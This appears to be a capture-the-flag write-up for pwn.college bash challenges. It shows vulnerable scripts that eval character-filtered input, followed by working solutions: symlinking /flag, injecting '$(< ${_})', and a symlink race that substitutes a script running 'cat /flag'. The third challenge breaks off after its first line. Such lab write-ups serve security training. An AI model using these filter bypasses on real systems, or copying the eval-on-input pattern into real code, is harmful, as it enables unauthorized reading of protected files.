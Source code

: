 # Odyssey of the Octal
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9./]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
$(< ${_})
```
# Riddle of the Radix
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read -r INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
creat symlink to /challenge/run
``` sh
ln -s /challenge/run smth
```
run the challenge with symlink using full path
``` sh
/home/hacker/smth
```
before passing input to challenge, in another terminal remove the symlink and create some program with same name as a symlink that reads /flag
``` sh
#!/usr/bin/bash

cat /flag
```
pass $0 to challenge as an input
# Whisper of the Withheld
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

```
